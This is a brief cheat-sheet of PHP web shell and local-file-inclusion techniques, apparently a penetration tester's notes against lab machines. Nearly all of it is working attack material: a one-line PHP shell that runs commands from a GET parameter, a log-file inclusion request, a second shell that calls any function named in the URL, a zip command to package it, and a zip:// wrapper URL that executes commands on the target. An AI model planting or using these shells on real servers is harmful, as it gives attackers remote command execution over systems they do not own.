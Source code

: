 

# PHP Web Shell

# Example shells:

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig
## ZIP Wrapper LFI

Create a PHP shell file:

````php
<?php $_GET['param1']($_GET['param2']); ?>
````

ZIP using:

```bash
$ zip -0 shell.zip shell.php
```

Run once the location is known:

`http://10.10.10.80/?op=zip://uploads/10.10.14.15/043ed5988a97b36bdf8e2d650c4891ea1139da3d%23shell&param1=system&param2=ls`

